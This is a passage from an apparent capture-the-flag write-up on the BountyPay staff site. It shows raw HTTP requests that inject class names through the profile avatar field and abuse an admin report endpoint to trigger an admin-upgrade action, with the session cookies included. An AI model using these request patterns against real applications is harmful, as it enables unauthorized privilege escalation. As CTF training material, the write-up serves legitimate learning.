 If the URL hash matches 'tab[1-4]' the code will trigger the onClick event on elements with that class on page load. The onClick event for  'upgradeToAdmin' will trigger the request to upgrade the username specified in the 'username' input field. The inclusion of tab4 in the hash code seems odd since the dashboard markup only has tab1, tab2, and tab3. Maybe the username field is on tab4 for admins.

Looking around for an opportunity to inject a class name in the markup, we see that the user avatar setting is used as a CSS class name. Intercepting the POST request to change the profile name, we modify it to change the avatar value:

```http
POST /?template=home HTTP/1.1
Host: staff.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwSmVNbFRkbnIvU3MzMndYSW5XNmNFS1l5T1FDdTVNZFJPMS9TTWtDWEFkODBtRGRlbXpERlZ5WVlUdVZ6eDA0VnkxaWxRbU9CUVA2dFVoOTdwQVljb0NpbSt2d0RkYVF1N1BHUmFSbjZkNHpH

profile_name=sandra&profile_avatar=upgradeToAdmin%20tab1%20tab2%20tab3%20tab4
```

This updates our cookie. Next we visit [/?template=home#tab1](https://staff.bountypay.h1ctf.com/?template=home#tab1) and can see in the Burp Proxy history that a request to /admin/upgrade was made on page load.

Time to test this out for real. I make a request to

```http
GET /admin/report?url=<@base64_2>/?template=home&username=sandra.allison#tab4<@/base64_2> HTTP/1.1
Host: staff.bountypay.h1ctf.com
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR09NOVM5N0IvVGtnM2g3TmhWU0lENlV5WVJLRHlmRlZMMXZvZUVPWWVKdGYvRWRGcXozbVVUWXFldWtmdmlVQzQxQ0FTR2V5U0w3WEMxWnltMlpjNzBISitQZ1RhZVJsNDY3TlBGbnBQY3VaTkwvSEEwTURoc3lsZy8xMVpPTHg5UDVoR21ZeUk1TlM5VlJhSCs0VGZkNFl2Ullj
```

annnnnnd...

```http
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 19

["Report received"]
```

That was disappointing.

## The missing piece

I messed with this a bit on Monday and didn't get anywhere. I was stuck and out of ideas. I tried to forget about it because I figured the answer would probably come to me later.

Tuesday morning while retrying everything, I realize I overlooked something. While I had tried changing parameters to arrays already, I must have skipped this check for the template parameter in favor of looking for path traversal. Doing so now, I noticed that changing template parameter to an array still loaded the page successfully, even though changing it to garbage strings gave a blank page.
